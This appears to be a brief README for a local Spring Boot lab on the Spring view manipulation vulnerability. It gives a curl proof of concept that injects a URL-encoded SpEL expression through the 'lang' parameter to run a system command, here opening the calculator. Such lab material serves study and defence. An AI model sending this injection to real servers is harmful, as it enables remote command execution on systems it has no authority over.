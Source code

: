 参考文章

* https://www.veracode.com/blog/secure-development/spring-view-manipulation-vulnerability

启动springboot


```
mvn spring-boot:run
```

测试方法

```
curl 'http://127.0.0.1:8080/path?lang=__%24%7BT(java.lang.Runtime).getRuntime().exec(%27%6F%70%65%6E%20%2F%53%79%73%74%65%6D%2F%41%70%70%6C%69%63%61%74%69%6F%6E%73%2F%43%61%6C%63%75%6C%61%74%6F%72%2E%61%70%70%27)%7D__::.xx'
```
